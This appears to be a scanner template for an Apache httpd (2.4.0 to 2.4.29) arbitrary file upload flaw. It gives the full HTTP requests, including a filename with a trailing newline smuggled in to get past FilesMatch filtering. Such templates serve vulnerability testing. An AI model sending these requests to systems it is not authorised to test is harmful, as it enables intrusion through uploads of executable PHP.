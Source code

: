 - part - header
- words
  1. text/html

**Type - status**

- status
  1. 200

---

# Apache httpd \<=2.4.29 - Arbitrary File Upload

## Description

- Apache httpd 2.4.0 to 2.4.29 is susceptible to arbitrary file upload vulnerabilities via the expression specified in \<FilesMatch>, which could match '$' to a newline character in a malicious filename rather than matching only the end of the filename. This could be exploited in environments where uploads of some files are externally blocked, but only by matching the trailing portion of the filename.
- severity - high
- tags - apache,httpd,fileupload,vulhub,cve,cve2017,intrusive

## Requests

### Step - 1

```
POST / HTTP/1.1
Host: {{Hostname}}
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryKc8fBVDo558U4hbJ

------WebKitFormBoundaryKc8fBVDo558U4hbJ
Content-Disposition: form-data; name="file"; filename="{{randstr}}.php"

{{randstr_1}}

------WebKitFormBoundaryKc8fBVDo558U4hbJ
Content-Disposition: form-data; name="name"

{{randstr}}.php\x0A
------WebKitFormBoundaryKc8fBVDo558U4hbJ--

```

### Step - 2

```
GET /{{randstr}}.php\x0A HTTP/1.1
Host: {{Hostname}}
Accept-Encoding: gzip,deflate
Accept: */*

```
